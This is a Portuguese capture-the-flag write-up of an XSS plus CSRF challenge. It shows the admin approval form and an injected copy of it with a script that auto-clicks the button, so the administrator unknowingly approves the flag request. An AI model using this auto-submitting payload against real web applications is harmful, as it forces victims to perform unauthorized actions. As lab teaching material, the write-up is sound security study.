 # CTF XSS + CSRF

## 1\. Explorar o servidor web

Inserimos texto aleatório na caixa de input e submetemos o pedido.

![First_Input](images/CTF XSS + CSRF/First_Input.PNG)

Somos então redirecionados para uma nova página que mostrava que o nosso pedido não foi aprovado pelo administrador (não nos seria dada a flag). 

![Justification_Page](images/CTF XSS + CSRF/Justification_Page.PNG)

Esta continha ainda um link (na palavra ```page```) para outra página com dois botões desativados, onde o administrador pode fornecer a flag e marcar o pedido como lido.

![Admin_Page](images/CTF XSS + CSRF/Admin_Page.PNG)

## 2\. Investigar a página do administrador 

Começamos por perceber que esta página está alojada numa porta (5005) diferente da _home page_ (5004).

Ao inspecionarmos os vários elementos desta página, nomeadamente o botão ```Give the flag```, percebemos que a aprovação do pedido da flag é feita através de um form do tipo POST que aprova o pedido tendo em conta o seu id.

```html
<form method="POST" action="/request/2102ce504ff2e7a33cd92544df1d995879df338e/approve" role="form">     
    <div class="submit">                  
        <input type="submit" id="giveflag" value="Give the flag" disabled>              
    </div> 
</form>
```

## 3\. Alterações no código

Reaproveitanto o código acima, fizemos três alterações que nos permitiram fazer a aprovação do pedido como administrador através da página inicial (princípios de Cross-site Scripting e Cross-site Request Forgery):
 - Alteramos o url do atributo ```action``` para conter o url completo do servidor uma vez que a porta da página de aprovação visitada pelo administrador é diferente da inicial.
 - Retiramos o atributo ```disabled``` do ```input``` para ativar o botão.
 - Criamos um pequeno script em JavaScript que clica no botão que criamos.

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/id/approve" role="form">     
    <div class="submit">                  
        <input type="submit" id="giveflag" value="Give the flag">              
    </div> 
</form>

<script> document.getElementById("giveflag").click(); </script>
```

## 4\. Explorar a vulnerabilidade

Após atualizarmos a página, para obter um novo id, submetemos o código alterado, substituindo o ```id``` no url presente no atributo ```action``` do form pelo respetivo id do novo pedido.
Somos redirecionados para uma nova página que fica disponível apenas por muito breves momentos e que logo é substituida pelo seguinte aviso:

![Forbidden](images/CTF XSS + CSRF/Forbidden.PNG)

## 5\. Desativar o JavaScript

Para conseguirmos visualizar a página com cuidado, desativamos o JavaScript do browser utilizado e voltamos a repetir o passo 4.
Após submetermos o pedido, atualizando a página, a flag fica disponível.

![Flag](images/CTF XSS + CSRF/Flag.PNG)
